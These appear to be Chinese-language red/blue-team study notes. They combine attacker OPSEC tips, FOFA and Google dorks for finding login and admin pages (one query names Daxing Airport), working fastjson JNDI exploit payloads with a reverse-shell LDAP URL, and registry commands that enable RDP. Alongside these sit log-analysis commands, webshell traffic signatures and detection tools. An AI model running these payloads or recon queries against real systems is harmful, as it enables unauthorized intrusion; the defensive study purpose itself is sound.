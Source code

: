 红队打点前准备

1.环境安装在虚拟机中，不要留有个人的相关信息

2.虚拟机和物理机隔断，虚拟机走代理上网，物理机断网

3.使用无痕模式浏览器，安装jsonp请求插件

4.动态IP代理池

5.从目标机器上下载文件放到断网虚拟机中

6.每日重置攻击环境



日志分析之IIS

打开IIS日志，win+R运行打开inetmgr

IIS日志不会记录POST的请求的内容，因为被默认为不安全的请求类型。

如果你想开启记录请求体的内容，则开启asp.net的request.querystring集合



Weblogic防御

禁用T3协议和IIOP协议，大多数漏洞都是基于这两个协议触发的。



命令

lsof -i :端口号	#查看占用端口的进程PID

ps aux | grep "进程PID"	#查看进程服务信息

awk -F: '{if($3==0) print $1}' /etc/passwd	#查看ID=0的有root权限的用户

cat etc/passwd | /grep /bin/bash	#查看可以登录ssh的用户

last 		#显示最近登录用户，会显示登录源ip

cat /var/log/secure 	#查看日志，记录的是与系统安全相关的事件，例如SSH登录尝试、sudo命令使用等



高效信息收集打点

组织架构收集：目标单位官网收集，例如总部部门及相关机构，分部，省公司，分公司，直属单位等等。天眼查子公司，控股公司等等。了解你的目标，以及目标所属行业，不同行业打法不同。

fofa快速找登录口

“大兴机场"&country="CN"&&region!="HK"&&region!="TW"&&region!="MO"&&(title="登录"‖title="系统"‖title-="后台"‖title="平台"‖tite="管理"‖title-="入口")

(title="登录" || title="系统" || title="后台" || title="平台" || title="管理" || title="入口") && country!="CN"

“大兴机场”&&(app="泛微-协同办公OA"‖app="用友-GRP.U8"‖app="用友-U8"‖app="用友-UFIDA-NC"‖app="致远互联-OA"‖app="TDXK-通达OA"‖app="Landray-OA系统“）



谷歌hack语法
查找后台地址：site:域名 inurl:login|admin|manage memberladmin_loginllogin_admin|system|login|user main|cms
查找文本内容：site:域名 intext:管理|后台|登陆|用户名|密码|验证码|系统帐号ladmin|login|sys|managetem|password|username
查找可注入点：site:域名 inurl:aspx| jsp | php| asp
查找上传漏洞：site:域名 inurl:file|load|editor|Files
找eweb编辑器：site:域名 inurl:ewebeditor | editor | uploadfile | eweb | edit
存在的数据库：site:域名 filetype:mdb | asp|#
查看脚本类型：site:域名 filetype:asp |aspx |php |jsp
迂回策略入侵：inurl:cms/data/templates/images/index/



fastjson漏洞（java组件）

1. Fastjson提供了反序列化功能，允许用户在输入JSON串时通过“@type”键对应的value指定任意反序列化类名；
2. Fastjson自定义的反序列化机制会使用反射生成上述指定类的实例化对象，并自动调用该对象的setter方法及部分getter方法。

fastjsonPOC合集：[safe6Sec/Fastjson: Fastjson姿势技巧集合 (github.com)](https://github.com/safe6Sec/Fastjson)

POC

content-type:applocation/json

```null
[
	{
		"a":"a\x]
#字符dos攻击,延迟类型的payload，服务器响应出错或者明显变慢就是fastjson
```

```
{"@type":"java.net.InetAddress","val":"dnslog"}
# fastjson<1.2.48 ,DNS类payload，原生域名解析dnslog,适用范围广
```

```
{"name":"sec" ; {"@type":"java.lang.AutoCloseable" ; "a" ; a
#报错类payload,畸形的json,想确定fastjson版本就用这类
```

EXP(<=1.2.24)结合JNDIExploit1.4

```
{"@type":"com.sun.rowsetJdbcRowSetImpl","dataSourceName":"rmi://127.0.0.1:1099/badClassName","autoCommit":true}

{"@type":"com.alibaba.fastison.JSONObject",{"@type":"com.sun.rowset.JdbcRowSetlmpl","dataSourceName":"rmi://127.0.0.1:8088/badClassName","autoCommit":true"}}

#url可以填rmi或者ldap,rmi-->http ladp-->ldap,查看JNDIExploit1.4的使用帮助，构造url进行命令执行或者反弹shell如:ldap://127.0.0.1:1389/Basic/ReverseShell/127.0.0.1/9999
```

当payload不管用时，可尝试以下方法重新构造payload

![image-20240522205455676](C:\Users\Yitai\AppData\Roaming\Typora\typora-user-images\image-20240522205455676.png)



fastjson<1.2.47

```
{
"a":{
	"@type":"java.lang.Class",
	"val":"com.sun.rowset.JdbcRowSetImpl"
	},
"br":{
	"@type":"com.sun.rowset.JdbcRowSetImpl",
	"dataSourceName":"ldap://localhost:808/badNameclass",
	"autoCommit":true
 	}
}
```

fastjson高版本

版本>=1.2.48，默认关闭Autotype功能，启动黑白名单防护

![image-20240522211853168](C:\Users\Yitai\AppData\Roaming\Typora\typora-user-images\image-20240522211853168.png)



windows文件下载命令

certutil

启用3389端口桌面连接命令

REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f

关闭3389桌面连接

REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000001 /f

查询远程桌面连接的端口号

REG QUERY "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\winStations\RDP-Tcp" /V PortNumber

3389的16进制-->0xd3d

3389连不上原因
1.3389端口号修改了
2.3389没开
3.有些用户没有rdp权限



Apache Shiro框架提供了记住我的功能（RememberMe），用户登陆成功后会生成经过加密并编码的cookie，在服务端接收cookie值后，Base64解码–>AES解密–>反序列化。攻击者只要找到AES加密的密钥，就可以构造一个恶意对象，对其进行序列化–>AES加密–>Base64编码，然后将其作为cookie的rememberMe字段发送，Shiro将rememberMe进行解密并且反序列化，最终造成反序列化漏洞。

Struts 2 使用 Object-Graph Navigation Language（OGNL）作为其默认的表达式语言，用于在视图和控制器之间进行数据交换。攻击者可以构造恶意的OGNL表达式，通过Web请求传递到Struts 2框架中。

 Apache log4j2-RCE 漏洞是由于Log4j2提供的lookup功能下的Jndi ==Lookup==模块出现问题所导致的，==该功能模块在输出日志信息时允许开发人员通过相应的协议去请求远程主机上的资源。而开发人员在处理数据时，并没有对用户输入的信息进行判断，导致Log4j2请求远程主机上的含有恶意代码的资源 并执行其中的代码，从而造成远程代码执行漏洞。



蚁剑流量特征

漏洞参数pass的开头为@ini_set("display_errors", "0")

如：pass=@ini_set("display_errors", "0")xxxxxxxxxxxxx



冰蝎流量特征

固定的请求头和响应头

请求字节头：

dFAXQV1LORcHRQtLRlwMAhwFTAg/M

响应字节头：

TxcWR1NNExZAD0ZaAWMIPAZjH1BFBFtHThcJSlUXWEd



WebShell检测与查杀

在线检测：[阿里云恶意文件检测平台 - 首页 (aliyun.com)](https://ti.aliyun.com/#/overview)、[SHELLPUB.COM在线查杀](https://n.shellpub.com/)河马在线查杀

查杀：[http://www.d99net.net﻿](http://www.d99net.net/) D盾（只支持W）

[https://www.shellpub.com](https://www.shellpub.com/) 河马（支持W、L、M）



##### windows和linux查找天内被修改的.jsp文件

power shell

Get-ChildItem -Path "C:\phpStudy\PHPTutorial\WWW\DVWA" -Recurse -Filter "*.php" | Where-Object { $_.LastWriteTime -ge (Get-Date).AddDays(-1) }

linux 

find /path/to/your/webapp -name "*.jsp" -mtime -1



##### windows和linux查找一天内被访问过的.jsp文件

Get-ChildItem -Path "C:\phpStudy\PHPTutorial\WWW\DVWA" -Recurse -Filter "*.jsp" | Where-Object { $_.LastAccessTime -ge (Get-Date).AddDays(-1) }



find /path/to/your/webapp -name "*.jsp" -atime -1



java内存马查杀工具

[c0ny1/java-memshell-scanner: 通过jsp脚本扫描java web Filter/Servlet型内存马 (github.com)](https://github.com/c0ny1/java-memshell-scanner)
